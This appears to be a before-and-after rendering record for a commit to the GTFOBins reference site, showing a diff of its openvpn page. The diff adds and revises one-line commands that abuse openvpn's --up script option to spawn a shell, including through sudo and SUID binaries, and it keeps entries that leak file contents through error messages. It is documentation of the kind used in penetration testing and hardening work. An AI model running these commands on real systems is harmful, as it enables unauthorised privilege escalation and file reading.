

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openvpn.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1205 px from its top, so only the background shows below that.

Commit message:
Allow unprivileged shell in openvpn by using a null device
Related #171.

```diff
--- a/_gtfobins/openvpn.md
+++ b/_gtfobins/openvpn.md
@@ -1,5 +1,8 @@
 ---
 functions:
+  shell:
+    - code: |
+        openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
   file-read:
     - description: The file is actually parsed and the first partial wrong line is returned in an error message.
       code: |
@@ -7,14 +10,14 @@ functions:
         openvpn --config "$LFILE"
   suid:
     - code: |
-        ./openvpn --dev tun0 --script-security 2 --up '/bin/sh -p -c "sh -p"'
+        ./openvpn --dev null --script-security 2 --up '/bin/sh -p -c "sh -p"'
     - description: The file is actually parsed and the first partial wrong line is returned in an error message.
       code: |
         LFILE=file_to_read
         ./openvpn --config "$LFILE"
   sudo:
     - code: |
-        sudo openvpn --dev tun0 --script-security 2 --up '/bin/sh -c sh'
+        sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
     - description: The file is actually parsed and the first partial wrong line is returned in an error message.
       code: |
         LFILE=file_to_read
```
